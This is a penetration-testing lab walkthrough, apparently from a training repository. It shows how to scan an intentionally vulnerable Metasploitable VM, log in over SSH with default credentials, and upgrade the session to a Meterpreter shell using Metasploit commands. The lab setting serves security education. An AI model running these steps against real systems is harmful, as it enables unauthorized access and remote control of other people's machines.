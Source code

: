 - [ ] Pasitikrinti ar viskas veikia

**Lab Objective:**

Learn how to upgrade a shell to Meterpreter using Metasploit.

**Lab Purpose:**

The Metasploit framework is a powerful tool which can be used to probe systematic vulnerabilities on networks and servers. It provides information about security vulnerabilities and aids in penetration testing and IDS signature development.

**Lab Tool:**

Kali Linux and Metasploitable

**Lab Topology:**

You can use Kali Linux in a VM for this lab.

**Lab Walkthrough:**

### Task 1:

In this lab, we will be using Metasploit to create a stable shell on a metasploitable machine. If you are unfamiliar with metasploitable, it is an intentionally vulnerable machine which can be loaded in VMware, the same as Kali Linux. You can download the metasploitable iso file here: [https://docs.rapid7.com/metasploit/metasploitable-2/](https://docs.rapid7.com/metasploit/metasploitable-2/)

You can find a lot of material on this page on how to download and setup the Metasploitable VM.

![Metasploit](attachements/Metasploit-1.png)

Once this is done, we can then open the tool by typing the following:

sudo msfconsole

![Metasploit](attachements/Metasploit.png)

Once the tool is open, we can then run the following to scan our target:

db_nmap -sV 192.168.56.102

![Metasploit](attachements/Metasploit-2.png)

192.168.56.102 is the IP address of our Metasploitable VM in this instance. You can find out the IP address of your Metasploitable VM by typing “ifconfig” in its console.

### Task 2:

Note that SSH is running on port 22. Once the scan is done, we will then login to our Metasploitable VM through Metasploit using SSH. This can be done by running the following set of commands:

use auxiliary/scanner/ssh/ssh_login  
set rhosts 192.168.56.102  
set rport 22  
set username msfadmin  
set password msfadmin

![msfadmin](attachements/msfadmin-1.png)

Let’s break this set of commands down:

- rhosts is the IP address of your Metasploitable VM which we will be connecting to
- rport is the port through which we will be connecting
- The username and password specified will log us into the Metasploitable VM using SSH

Once you have typed these commands, type the following to login through SSH:

run

This will log us into the Metasploitable VM through SSH and will generate a limited shell for us to interact with the machine.

![Metasploitable](attachements/Metasploitable-3.png)

### Task 3:

We now want to upgrade this shell to a meterpreter shell, which will allow us to perform a number of different actions on our target. We can do this by using the following set of commands:

use post/multi/manage/shell_to_meterpreter  
set session 1  
run

![meterpreter](attachements/meterpreter-1.png)

This will upgrade our limited SSH shell to an unlimited meterpreter shell. You can check the sessions which have been created by typing sessions into the terminal. You will notice that there are now 2 sessions open; one for our limited SSH shell and one for our unlimited meterpreter shell. We can switch to our meterpreter shell by typing the following:

sessions -i 2

![meterpreter](attachements/meterpreter.png)